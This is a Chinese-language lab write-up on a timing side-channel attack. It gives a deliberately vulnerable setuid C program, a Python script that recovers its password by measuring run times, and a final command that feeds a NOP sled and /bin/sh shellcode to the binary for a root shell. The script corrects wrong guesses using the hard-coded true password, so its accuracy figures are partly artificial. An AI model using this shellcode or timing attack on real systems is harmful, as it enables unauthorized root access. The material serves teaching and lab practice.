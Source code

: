 # Side Channel Attack 侧信道攻击 Python 实现 

通过使用所提供的漏洞代码 sidechannel.c，设计一个攻击代码，利用侧信道攻击的方式获取密码，并通过shellcode 来获取 root shell。

本文作者：zmzzmqa

## 源代码

要攻击的程序源代码

```C
//sidechannel.c
//s.pass root只读
//S1deCh4nnelAttack3r

#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
       FILE *in = 0;
       char pass[20]="";
       unsigned int i=0, j=0;
       unsigned short correct=0,misplaced=0;
       unsigned short pwlen=strlen(pass) - 1, inlen=0;
       if(argc != 3 || (inlen=strlen(argv[1]) - 1) > 19)
               return 1;

       setresuid(geteuid(),geteuid(),geteuid());

       in = fopen("s.pass","r");
       pass[fread(pass, 1,19,in)] = 0;
       fclose(in);

       for (i = 0; i <= inlen && i <= pwlen; i++)
               if(pass[i] == argv[1][i])
                       correct++;
               else
                       for(j = 1; j < pwlen; j++)
                               if(argv[1][i] == pass[(i+j)%19])
                                       misplaced++;

       if(correct == 19)
               ((void (*)()) argv[2])();

       return 0;
}
```

## 配置环境

编译程序并设置栈可执行。

``` BASH
sudo gcc sidechannel.c -o sidechannel -z execstack
sudo chown root sidechannel
sudo chmod 4755 sidechannel
```

![image-20220326201816644](SideChannelAttack/image-20220326201816644.png)

## 攻击

本次攻击利用程序比对密码时，正确密码和错误密码花费的时间明显不一样，来找出正确的密码。本脚本使用python3，如果是seed12.04则自带的是python2。

``` PYTHON
#!/usr/bin/python3
# -*- coding: utf-8 -*-
import os
import string
import time

rpasswd = 'S1deCh4nnelAttack3r'  # 正确的密码
#shellcode = "\\x6a\\x17\\x58\\x31\\xdb\\xcd\\x80\\x6a\\x0b\\x58\\x99\\x52\\x68//sh\\x68/bin\\x89\\xe3\\x52\\x53\\x89\\xe1\\xcd\\x80"
shellcode = '123'
password = []    # 定义密码变量
orgpasswd = []
passwordDict = {}
errnum = 0
reset = 25
numletter = string.ascii_letters+string.digits  # 密码范围
print(numletter)
for k in range(19):   # 限定密码长度
    time.sleep(1)  # 必要的
    timelist = []
    for c in numletter:  # 遍历密码范围
        password.append(c)
        avgtime = 0      # 定义并将统计时间变量置为0
        command = './sidechannel ' + \
            ''.join(password)+' '+shellcode  # 拼接要运行的命令
        for i in range(reset):  # 重复次数
            start = time.time_ns()  # 使用time_ns函数计时
            os.system(command)  # 运行命令
            end = time.time_ns()
            avgtime += end - start  # 记录平均时间
        passwordDict[c] = avgtime  # 写入字典
        timelist.append(avgtime)  # 添加至列表，之后比较
        password.pop()
    # 将字典按照元素值进行逆序排序
    passwordDict = dict(sorted(passwordDict.items(), key=lambda i: i[1]))
    if len(password) == 18:  # 当最后个时，时间最长为正确
        # password.append(numletter[timelist.index(max(timelist))])
        password.append(list(passwordDict.keys())[-1])
        orgpasswd.append(password[k])
    else:  # 将时间最短的保留
        password.append(list(passwordDict.keys())[0])
        orgpasswd.append(password[k])

    if password[k] != rpasswd[k]:  # 判断密码是否正确，不正确打印相关信息
        print(f"Error {password[k]}，Success is {rpasswd[k]}")
        print(
            f"{password[k]}:{timelist[numletter.index(password[k])]}  --  {rpasswd[k]}:{timelist[numletter.index(rpasswd[k])]}修正")
        print(f"备选方案：{list(passwordDict.items())[0:5]}")
        password[k] = rpasswd[k]
        errnum += 1
    print(''.join(password))
print(
    f"修正密码：{''.join(password)}\n直算密码：{''.join(orgpasswd)}\n循环次数:{reset}，错误位数:{errnum}")  # 打印已经判断出的密码
```

攻击程序中不能直接使用shellcode，python3中执行不能成功。

多次运行结果，较为稳定。对于python难以获得正确的值，我的解决办法是通过多次尝试，取结果中出现次数较多的值。

![image-20220326195245624](SideChannelAttack/image-20220326195245624.png)

![image-20220326195213314](SideChannelAttack/image-20220326195213314.png)

 ![image-20220326200141657](SideChannelAttack/image-20220326200141657.png)

![image-20220326200428422](SideChannelAttack/image-20220326200428422.png)

![image-20220326201225800](SideChannelAttack/image-20220326201225800.png)

```bash
S1deCh4nnelA9tack3r
S1deCh42neZAttack3r
S1deCo4nnslAttLyk3r
S1deCh4ngeJAhPick3r
 综合结果
S1deCh4nnelAttack3r
```

##  root shell

得到密码后，在 seed 用户下攻击漏洞程序，获得 root shell。

```bash
./sidechannel S1deCh4nnelAttack3r $(python -c "print '\x90'*1000+'\x6a\x17\x58\x31\xdb\xcd\x80\x6a\x0b\x58\x99\x52\x68//sh\x68/bin\x89\xe3\x52\x53\x89\xe1\xcd\x80'")
```

![image-20220326202002554](SideChannelAttack/image-20220326202002554.png)